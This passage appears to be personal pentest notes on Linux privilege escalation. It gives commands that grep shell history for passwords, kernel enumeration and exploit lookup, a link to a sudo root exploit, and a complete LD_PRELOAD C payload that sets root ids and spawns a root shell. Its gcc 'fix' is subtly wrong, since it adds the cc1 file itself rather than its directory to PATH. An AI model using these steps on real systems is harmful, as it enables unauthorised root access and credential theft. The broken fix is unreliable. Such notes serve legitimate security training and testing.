 ```bash
cat .bash_history
cat .bash_history | grep pass
cat .bashrc
```


### Kernel Exploits

Enumeration commands:
```bash
cat /etc/issue
cat /etc/os-release
cat /proc/version
lsmod # kernel modules & drivers
/sbin/modinfo <module> # Get more info about a module
uname -a
uname -r
arch
```

Locating exploit:
```bash
searchsploit <kernel version>
```
>[!info] 
>- google.com
>- exploit-db

Fixing `gcc: error trying to exec 'cc1': execvp: No such file or directory`
```bash
# Locate cc1
find / -name cc1 2>/dev/null
/usr/lib/gcc/x86_64-linux-gnu/4.6/cc1

# Add to PATH
export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/4.6/cc1
```


### Sudo

Check sudo version:
- sudo --version
- https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit

Enumeration:
```bash
sudo -l
```
--> [gtfobins](https://gtfobins.github.io/)

LD_PRELOAD set:
```bash
env_keep+=LD_PRELOAD

# C code:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

```